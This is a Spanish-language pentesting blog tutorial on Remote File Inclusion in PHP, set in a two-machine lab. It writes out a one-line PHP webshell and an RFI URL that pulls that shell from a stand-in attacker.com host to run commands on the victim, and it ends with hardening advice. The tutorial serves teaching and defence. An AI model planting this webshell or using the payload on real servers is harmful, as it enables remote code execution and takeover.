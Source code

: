 ```yaml
---
title: Remote File Inclusion (RFI)
published: 2025-02-24
description: "Explotación de la vulnerabilidad Remote File Inclusion (RFI) para ejecutar comandos remotos en servidores vulnerables."
image: "./RFI.png"
tags: ["RFI", "Web", "Pentesting"]
category: Web
draft: false
---
```



## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30

![img0](./entorno.png)

Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:

![img1](./portada.png)

Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```
![img1](./phpserv1.png)

Kali Linux
```
http://192.168.1.30/?file=flag.txt
```
![img2](./lfi.png)

Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:

![img3](./include.png)

Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```
![img4](./python3.png)

Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``

![img5](./rcc.png)
   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.

![img6](./rig.gif)
